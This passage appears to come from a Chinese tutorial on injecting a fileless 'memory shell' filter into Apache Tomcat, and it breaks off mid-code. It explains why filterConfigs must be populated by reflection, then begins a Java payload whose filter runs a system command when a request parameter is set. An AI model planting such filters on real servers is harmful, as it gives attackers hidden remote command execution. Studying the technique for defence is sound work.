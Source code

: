 ```java
                ...[无关紧要的log代码]...

                try {
                    //获取当前迭代对象的 filterDef 并作为参数实例化 filterConfig
                    ApplicationFilterConfig filterConfig = new ApplicationFilterConfig(this, (FilterDef)entry.getValue());
                    //将实例化的 filterConfig 放入 this.filterConfigs
                    this.filterConfigs.put(name, filterConfig);
                } catch (Throwable var8) {
                    ...[错误处理代码]...
                    ok = false;
                }
            }

            return ok;
        }
    }
}
```

这就解释了为何在正常业务正常流程中不必往 filterConfigs 中注册，但打入内存马时必须要手动往 filterConfigs 中注册的原因：  
就是因为 StandardContext 在生命周期一开始时就已经根据 filterMaps 和 filterDefs 固定了 filterConfigs ，且未预留任何接口，黑客必须将 filterConfigs 反射出来手动添加

那么现在我们就清楚了  
至此，关于 Filter 流程分析已结束，笔者不再过多赘述

接下来直接写Payload，加载内存马后访问`http://127.0.0.1:8003/hackFilter?calc=1`弹计算器

```java
//Payload
import org.apache.catalina.Context;
import org.apache.catalina.Wrapper;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.startup.Tomcat;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;

import javax.servlet.*;
import java.util.Map;
import java.lang.reflect.*;

public class Hack {
    public Hack(Context context) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, NoSuchFieldException {
        Filter hackFilter = new Filter() {
            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                try {
                    String shell = servletRequest.getParameter("calc");
                    if(shell != null && shell.equals("1")) {
                        Runtime.getRuntime().exec("calc");
                    }
                }catch (Exception e){
                    e.printStackTrace();
```